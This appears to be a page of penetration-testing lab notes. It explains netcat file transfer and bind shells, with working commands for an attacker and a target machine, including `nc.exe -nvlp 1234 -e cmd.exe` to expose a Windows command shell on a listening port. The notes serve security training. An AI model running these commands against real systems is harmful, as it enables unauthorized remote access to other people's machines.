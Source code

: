 - Transfer files with `nc`

```bash
# A listener must be present on the target system
# Target machine
nc.exe -nvlp 1234 > test.txt

# Attacker machine
echo "Hello target" > test.txt
nc -nv 10.2.23.227 1234 < test.txt
```

### Bind Shells

> 📌 [Bind and Reverse shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

![Bind Shell - geeksforgeeks.org](.gitbook/assets/BindShell-660x309.png)

🗒️ **Bind Shell** - a remote shell where *the attacker connects to the listener running on the target system* and execute commands on the target system.

- *Bind shells issues*:
  - Must have access to the target system
  - Inbound traffic can be blocked by a firewall, it is very suspect

-  A `netcat` listener must be configured on the target system to execute:
  - `cmd.exe` - Windows
  - `/bin/bash` - Linux

> 🔬 Same lab as above (IPs might change)

- Once uploaded the `nc.exe` on the target system, proceed with the bind shell

```bash
# Target Win machine - Bind shell listener with executable cmd.exe
nc.exe -nvlp 1234 -e cmd.exe

# Attacker Linux machine
nc -nv 10.2.22.140 1234
```

